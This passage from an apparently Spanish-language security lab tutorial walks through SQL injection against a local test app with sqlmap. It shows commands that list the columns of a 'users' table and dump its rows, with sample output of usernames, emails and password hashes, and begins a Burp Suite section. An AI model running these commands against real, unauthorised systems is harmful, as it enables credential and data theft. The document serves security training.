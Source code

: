 ### Paso 5: Extracción de estructura de tabla users
```powershell
python sqlmap.py -u "http://localhost/news.php?id=1" -D auditoria_web -T users --columns --batch
```

**Resultado esperado:**
```
Database: auditoria_web
Table: users
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| username | varchar(50) |
| email    | varchar(100)|
| password | varchar(255)|
+----------+-------------+
```

### Paso 6: Extracción de datos de usuarios
```powershell
python sqlmap.py -u "http://localhost/news.php?id=1" -D auditoria_web -T users --dump --batch
```

**Resultado esperado:**
```
Database: auditoria_web
Table: users
[3 entries]
+----+----------+-------------------------+------------------------------------------------------------------+
| id | username | email                   | password                                                         |
+----+----------+-------------------------+------------------------------------------------------------------+
| 1  | admin    | admin@auditoria.local   | 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8 |
| 2  | editor   | editor@auditoria.local  | ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f |
| 3  | user     | user@auditoria.local    | 03ac674216f3e15c761ee1a5e255f067953623c8b388b4459e13f978d7c846f4 |
+----+----------+-------------------------+------------------------------------------------------------------+
```

## 🔍 PRÁCTICA: Cómo Auditar con Burp Suite

### Verificación previa del entorno:
Asegúrate de que tu aplicación web esté ejecutándose:
```
- Verificar que Apache y MySQL estén funcionando
- Acceder a: http://localhost/news.php?id=1  
- Debe mostrar: "✅ Artículo Encontrado" o "❌ Artículo No Encontrado"
```
